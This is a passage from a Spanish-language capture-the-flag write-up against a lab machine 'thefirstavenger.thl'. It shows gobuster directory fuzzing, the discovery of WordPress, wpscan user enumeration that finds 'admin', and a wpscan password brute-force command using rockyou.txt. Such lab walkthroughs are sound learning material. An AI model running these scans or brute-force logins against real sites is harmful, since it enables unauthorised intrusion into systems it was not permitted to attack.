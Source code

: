 Ahora tenemos un codigo de estado **301MovedPermanently** lo que significa que el recurso fuer movio a otra ruta:
Por lo que realizaremos fuzzing a la siguiente ruta:
```bash
gobuster dir -u http://192.168.100.14/wp1/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 50 -x php,php.back,backup,txt,sh,html,js,java,py
```

Reporte:
```bash
/wp-content           (Status: 301) [Size: 325] [--> http://192.168.100.14/wp1/wp-content/]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 326] [--> http://192.168.100.14/wp1/wp-includes/]
/index.php            (Status: 301) [Size: 0] [--> http://192.168.100.14/wp1/]
/readme.html          (Status: 200) [Size: 7409]
/wp-login.php         (Status: 200) [Size: 6694]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 323] [--> http://192.168.100.14/wp1/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://thefirstavenger.thl/wp1/wp-login.php?action=register]
```

Todo inidca que tenemos un servicion de **wordPress** correindo asi que agregamos a nuestro archivo: **( /etc/hosts )** la siguiente linea:
```bash
# HostDiscovery Alx

192.168.100.14 thefirstavenger.thl
```
### Enumeracion WordPress
Realizamos una enumeracion agresiva:
```bash
wpscan --url http://thefirstavenger.thl/wp1/ --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```

Reporte:
```bash
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By: Rss Generator (Passive Detection)
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos un usuario valido procederemos a realizar fuerza bruta sobre el panel de **login**
```bash
wpscan --url http://thefirstavenger.thl/wp1/wp-login.php/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
